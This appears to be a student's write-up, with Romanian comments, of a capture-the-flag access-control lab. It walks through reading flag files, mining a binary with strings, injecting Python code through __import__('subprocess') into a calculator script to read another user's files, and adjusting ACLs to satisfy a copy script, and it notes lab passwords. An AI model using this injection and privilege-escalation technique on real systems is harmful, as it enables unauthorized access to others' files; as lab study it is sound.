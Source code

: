 # Lab 5 Access Control

## Task 1
 
* **_Flag 1_**

... there is a flag in there... yeah right ... literally, a "flag"

```bash
$ cat /etc/secret/flag
# ISC{y1Z33}
```
* **_Flag 2_**

[i have no idea for this one]
```bash
$ cd /usr/local/isc/.hidden/
$ for i in {100..10000}; do cat ".$i" 2>/dev/null; done
# ISC{14mt3h31337}
```

* **_Flag 3_**

din hacker (numai el are permisiune de read in afara de root)
```shell
# sus
$ readelf -a /usr/local/bin/giff-me-flag | grep FLAG
# 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE

$ strings /usr/local/bin/giff-me-flag
# apar niste fraze printre care si secventa
# What do you say?
# PLEASE!!!11oneone   ----- yesss this is it!!!!!!!!
# Wrong answer!
# /etc/secret/.hahah/.y0u_c4nt_gu355_th1s
# Okay, here's your flag: %s
# 
```

din decanu sau mihai (orice in afara de hacker ca sa se duca pe other, ca numai ei au permisiune de execute)

```bash
$ giff-me-flag PLEASE!!!11oneone
# Okay, here's your flag: ISC{4lw4ys_s4y_m4g1c_w0rd}
# e flagul ascuns in /etc/secret
```


## Task2

userul *mihai* are parola hunter2

```bash
$ tree /home/
```
La userul *rekt0r* avem un tutorial

    tldr *decanu* poate folosi sudo in locul lui *rekt0r* ca sa execute script ul cu  read...

La *decanu* avem un folder ascuns cu parola [xaX4xaxa4444]

La *t4l3nt* avem un fisier ascuns cu flags - nvm e pt taskul 4



Nu mai am alte idei :(


## Task 3

* dezactivam "testing" mode ca sa rulam comanda de python, nu math.pi 
```bash
$ mv /tmp/.TEST_MODE_ENABLED /tmp/.TEST_MODE_DISABLED
# scriptul verifica daca exista fisierul si suprascrie expresia de python daca exista
```

* incercam sa aflam continutul directorului cu python (si chatGPT :P)
```bash
$ ./sant_calculator "'\n'.join(__import__('subprocess').check_output(['ls', '/home/t4l
3nt/.flags']).decode().splitlines())"
# hehe found it
# izitthis.txt
# no_thiz.txt
# whereisflagz0rx.txt
```

* afisam continutul fisierelor
```bash
$ ./sant_calculator "open('/home/t4l3nt/.flags/izitthis.txt', 'r').read()"
# TZAEAPA
# hmm hmmm ... fine

$ ./sant_calculator "open('/home/t4l3nt/.flags/no_thiz.txt', 'r').read()"
# NOT HERE
# it's not funny anymore

$ ./sant_calculator "open('/home/t4l3nt/.flags/whereisflagz0rx.txt', 'r').read()"
# ISC(su1d_vs_pyth0n_w1nz)
# intr-un final...
```

## Task 4

```bash
$ su student
# parola e student ofc :P
$ strings /usr/local/bin/copy-the-flags
# !/bin/bash
# set -e
# umask 000
# DEST=/home/student/givemeflagz
# su -c 'ls -l /home/student/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 1; }
# ! su -c 'ls -l '$DEST'/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 2; }
# ! su -c 'ls -l '$DEST'/' an0th3r0n3 >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 3; }
# su -c 'bash -c "umask 000; cp -f /home/flagz0wner/lastflag1.txt '$DEST'/"' flagz0wner || { echo 'Copy 1 failed!'; exit 4; }
# echo "First flag successfully copied!"
# DEST=/home/student/givemeflagz/second
# ! su -c 'ls -l '$DEST'/' flagz0wner >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 5; }
# su -c 'bash -c "umask 006; mkdir -p "'$DEST'"; umask 000; cat /home/flagz0wner/lastflag2.txt > '$DEST'/lastflag2.txt"' flagz0wner || { echo 'Copy 2 failed!'; exit 6; }
# echo "Second flag successfully copied!"

$ cd ~
$ mkdir givemeflagz
$ chmod og-rw givemeflagz/
# scoate permisiunile de read pt categoria others ca sa treaca de testul 2 si 3
# cred ca ajunge sa scoti si doar read
$ setfacl  -m  u:flagz0wner:7  givemeflagz/
# acorda permisiuni numai lui flagz0wner 
$ copy-t3h-fl4gz
$ ls -al givemeflagz/
$ cat givemeflagz/lastflag1.txt
# ISC{almost_there_hang_on}
$ cat second/lastflag2.txt
# second este un folder pe care avem numai drept de execute => blind guessed numele dupa formatul primului flag
# hope it works
# anddddd Yesssss it works!!!!!
# ISC{gg_ok_no_more_leet_speak}
```